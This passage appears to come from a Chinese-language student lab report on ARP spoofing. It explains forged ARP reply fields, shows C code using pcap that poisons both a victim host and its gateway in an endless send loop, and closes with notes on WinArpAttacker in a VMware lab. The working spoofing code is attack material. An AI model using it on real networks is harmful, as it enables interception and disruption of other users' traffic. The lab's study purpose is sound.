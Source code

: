 	- `0x0806`代表该帧封装了arp包，硬件类型为以太网`0x1`，协议类型为IP`0x0800`，硬件地址为MAC地址，其长度为6，协议地址为IP地址，其长度为4，此包封装了ARP应答，值为`0x2`。
然后，在这里，构造packet的目标IP和MAC地址。

		```c arp.c
		if (flag == TO_VICTIM_HOST) {
			for (i = 0; i < MAC_LEN; i++)
				pkt->eth_hdr.dst_mac[i] = pkt->arp_hdr.dst_mac[i] =  VICTIM_MAC[i];
			pkt->arp_hdr.src_ip = inet_addr(GATEWAY_IP);
			pkt->arp_hdr.dst_ip = inet_addr(VICTIM_IP);
		}
		else if (flag == TO_VICTIM_GATEWAY) {
			for (i = 0; i < MAC_LEN; i++)
				pkt->eth_hdr.dst_mac[i] = pkt->arp_hdr.dst_mac[i] = GATEWAY_MAC[i];
			pkt->arp_hdr.src_ip = inet_addr(VICTIM_IP);
			pkt->arp_hdr.dst_ip = inet_addr(GATEWAY_IP);
		}
		```

	- 最后在一个循环中，不断发出arp请求包。

		```c arp.c
		while (1) {
			printf("Press ctrl+C to stop attack...\n");
			if(attack_host){
				if (pcap_sendpacket(handle, (unsigned char *)&pkt_host, sizeof(ARP_PKT)) != 0)
					fprintf(stderr,"\nError sending the packet: \n", pcap_geterr(handle));
				else
					printf("attack %s...\n", VICTIM_IP);
			}
			if(attack_gateway){
				if (pcap_sendpacket(handle, (unsigned char *)&pkt_gateway, sizeof(ARP_PKT)) != 0)
					fprintf(stderr,"\nError sending the packet: \n", pcap_geterr(handle));
				else
					printf("attack %s...\n", GATEWAY_IP);
			}
		}
		```

前述截图中输出了attack xxx，说明ARP包被成功发送。

## 总结

### 软件使用方面

1. WinArpAttacker的兼容性在win10中略差，启动前需要先行调整为兼容模式，以防止闪退。
2. WinArpAttacker扫描主机时，要注意选择虚拟机所在的VMware网卡，否则扫描不到虚拟机，同时要注意仔细核对目标ip和mac地址，防止其对正常影响的监测机产生影响，误伤到自己或其他无辜的局域网用户。

### ARP知识方面

掌握了ARP网络包的组成和构建，并尝试在结构体的帮助下，使用C语言编程实现ARP请求包的发送。
